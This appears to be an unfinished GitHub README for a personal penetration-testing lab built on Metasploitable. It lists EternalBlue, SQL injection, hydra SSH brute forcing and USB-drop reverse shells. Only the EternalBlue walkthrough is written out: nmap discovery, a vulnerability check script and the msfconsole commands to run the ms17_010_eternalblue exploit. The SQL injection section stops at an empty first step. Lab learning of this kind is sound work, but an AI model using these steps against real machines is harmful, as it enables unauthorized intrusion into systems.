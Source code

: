 CAUTION: USING ANY OF THESE METHODS WITHOUT OWNERS CONSENT MAY/WILL RESULT IN PERSECUTION. ENSURE ALL PROPER PROCEDURES HAVE TAKEN PLACE BEFORE MOVING ON. 
[Under Construction]
___________________
The objective of this project was to familiarize myself with known vulnerabilities and
with said knowledge, be able to build counter measures/patch necessary apps & OS. 
___________________

 - Eternal Blue is one of my favorite vulns, it exposed how many devices could be easily infected with little to no effort by sending modified packets 
to the victim machine. Windows had a vulnerability within the OS server message block. This has crippled entire sectors of industrial sites when combined
into wannacry.

 - SQL Injection is a very common attack vector as many corporations/servers use SQL. 

 - Brute force ssh using hydra to show how basic ssh/telnet/ftp/sftp/mysql services can be brute forced when improperly configured or straight out vulnerable.

 - Reverse shells by "dropping USBs" (simulating a physical pentest)
   
--------------------------
HOW TO REPLICATE 
--------------------------
NOTE: I will be using metasploitable both win/linux to demonstrate most if not all vulns/exploits. Refer to Metasploit_install.md 

- 💙Eternal Blue💙

   Step 1: 
   Once your windows server and kali/parrot machine is spun up, ensure the two machines can communicate with each other by either using netdiscover or Nmap.
  ~~~
   sudo netdiscover -r ipaddress/prefix | OR | nmap -T4 -sV --version-all --osscan-guess -A -p 1-10000 ipaddress
  ~~~

  Step 2: 
  Use Nmap to confirm the windows server is vulnerable by using one of the NSE scripts that come with Nmap,

  ~~~
  nmap -p 139, 445 --script smb-vuln-ms17-010 ipaddress
  ~~~

  Step 3: 
 Once verified, within your attacking machine spin up msfconsole and search for the smb-ms17-010 exploit and configure it for your victim machine.

~~~
  msfconsole , use exploit/windows/smb/ms17_010_eternalblue , options , set rhost ipaddress , check , run 
~~~
Congrats you have used an exploit to gain unauthorized access!
------------------------------
- ✒️SQL Injection✒️ 

 Step 1:






